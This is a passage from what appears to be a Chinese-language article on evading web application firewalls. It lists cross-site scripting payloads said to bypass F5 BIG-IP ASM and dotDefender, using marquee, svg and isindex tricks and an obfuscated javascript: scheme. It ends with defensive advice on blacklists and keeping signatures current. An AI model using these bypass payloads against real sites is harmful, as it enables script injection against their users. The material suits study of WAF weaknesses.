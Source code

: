 这是另一个可以绕过F5 BIG IP ASM的：

[code]

    “/><marquee onfinish=confirm(123)>a</marquee>
[/code]



**7.1.4 绕过Dot Defender**

[code]

    <svg/onload=prompt(1);>
    <isindex action="javas&tab;cript:alert(1)" type=image>
    <marquee/onstart=confirm(2)>
[/code]



**结论：**  
到这里可以得出结论，黑名单不是一个完美的解决方案，也无法成为完美的解决方案；黑名单可以节省时间，然而，它使得应用相比白名单有更多地漏洞。我们希望能像WAF供应商推荐下面这些最佳实践

1)开发人员和管理员应该记住，除非漏洞从源代码级别打上了补丁，否则WAF只是用于已知的漏洞控制器/参数的短时间内的安全机制

2)给WAF的签名数据库及时更新并在上线前对其进行测试以确保按预期的方式运行  
3)WAF仅当配置有特定控制器/参数的签名时才能提供帮助，因此它需要手工定义期望的值得类型、最小/最大长度、content-
type等参数以确保WAF在遇到入侵请求时能知道什么时候该阻塞、什么时候该报警  
4)如果WAF依赖于黑名单，你要让你的签名库保持最新并周期性地核实WAF维护者发布的新签名，确保它可以阻塞已知的浏览器bug




